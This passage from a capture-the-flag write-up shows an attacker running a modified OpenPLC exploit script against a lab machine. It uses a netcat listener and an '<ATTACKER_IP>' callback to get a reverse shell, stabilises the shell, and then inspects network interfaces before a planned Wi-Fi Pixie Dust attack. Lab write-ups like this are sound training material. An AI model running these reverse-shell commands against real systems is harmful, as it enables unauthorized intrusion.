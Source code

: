     compile_program = options.url + '/compile-program?file=blank_program.st'

We set up a listener for the reverse shell.

    nc -nvlp 4444

We launch our modified python script.

    python3 exploit.py -u http://<TARGET_IP>:8080 -l openplc -p openplc -i <ATTACKER_IP> -r 4444

After a moment we successfully gain a reverse shell.

![Reverse shell](reverse-shell.png)

The user flag is located at */root/user.txt*.

## Acquiring Wi-Fi password using Pixie Dust attack with oneshot.py

We stabilize our shell using following commmands.
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm-256color SHELL=bash
CTRL+Z
stty raw  -echo;fg;reset
stty rows <YOUR_TERMINAL_ROWS> columns <YOUR_TERMINAL_COLS>
```

We check network interfaces.

    ifconfig

```
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.0.3.2  netmask 255.255.255.0  broadcast 10.0.3.255
        inet6 fe80::216:3eff:fefc:910c  prefixlen 64  scopeid 0x20<link>
        ether 00:16:3e:fc:91:0c  txqueuelen 1000  (Ethernet)
        RX packets 24588  bytes 2046665 (2.0 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 15854  bytes 1796468 (1.7 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 10  bytes 576 (576.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 10  bytes 576 (576.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

wlan0: flags=4099<UP,BROADCAST,MULTICAST>  mtu 1500
        ether 02:00:00:00:02:00  txqueuelen 1000  (Ethernet)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```
We find a *wlan0* interface. We'll scan it further.
